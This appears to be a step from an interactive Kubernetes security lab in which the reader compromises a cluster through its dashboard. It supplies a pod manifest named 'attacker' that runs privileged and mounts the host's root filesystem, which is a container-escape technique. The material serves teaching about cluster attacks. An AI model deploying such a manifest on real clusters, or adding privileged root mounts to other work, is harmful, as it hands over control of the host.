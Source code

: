 ## Inside dashboard

Now as shown in the video lets compormise the cluster from the dashboard

1. Now lets add our malicious file into the cluster, press ADD sign button in the navbar
2. In the create from input copy-paste this code
```
apiVersion: v1
kind: Pod
metadata:
  name: attacker
  labels:
    app: attacker
spec:
  containers:
    - name: attacker
      image: hackingkubernetes/api:latest
      imagePullPolicy: IfNotPresent
      volumeMounts:
        - name: hostsvolume
          mountPath: /attacker
      ports:
        - containerPort: 80
      securityContext:
        privileged: true
  volumes:
    - name: hostsvolume
      hostPath:
        path: /
```{{copy}}
3. Press Upload

## Configure our webapp

After the above code executed run this command to run our webapp and API server
`bash pods.sh`{{execute HOST1}}

Check if pods are created
`kubectl get pods`{{execute HOST1}}